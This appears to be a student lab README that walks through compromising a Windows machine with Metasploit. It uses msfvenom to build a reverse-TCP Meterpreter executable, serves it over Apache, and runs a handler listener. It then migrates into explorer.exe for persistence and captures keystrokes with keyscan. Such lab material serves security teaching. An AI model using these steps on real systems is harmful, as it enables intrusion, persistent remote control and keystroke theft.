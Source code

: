 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![image](https://github.com/user-attachments/assets/9f114080-577e-4c4d-89a5-c8e1aee90f9b)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT

![image](https://github.com/user-attachments/assets/a0433240-4454-4e40-9bea-151b21c11e14)


copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/user-attachments/assets/4568276e-b714-4120-8f87-bc8a8e5af006)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/user-attachments/assets/2bec5ee3-c7da-46dd-850d-78b9b1a2b5f8)



Check the status of apache2

![image](https://github.com/user-attachments/assets/ec9a2d75-8aa7-4d07-9398-cfc1d257eb33)


Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![image](https://github.com/user-attachments/assets/95bcd6da-385e-433e-a4f5-e35cdd9101fc)


Starting a command and control Server
use multi/handler
![image](https://github.com/user-attachments/assets/f0ff5564-496c-450a-8808-2db975e874a4)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![6 7](https://github.com/user-attachments/assets/76927041-303e-4d38-a66e-8bd6e89d6563)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/user-attachments/assets/049996e8-1ca7-41cb-a270-e2df3b357376)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/user-attachments/assets/07d9f86d-ca95-427a-b005-9e6969354176)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
![6 10](https://github.com/user-attachments/assets/66442dd7-aedd-4c09-8d4c-4100ae0ac911)

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/f5776fc3-80cb-4ae1-8ba0-f8bf1cd4771a)
![6 14](https://github.com/user-attachments/assets/781f8912-c6e5-4a38-9f49-da7c39338628)


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/1ca75d17-301e-4c88-9082-6bfcfab05318)







## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
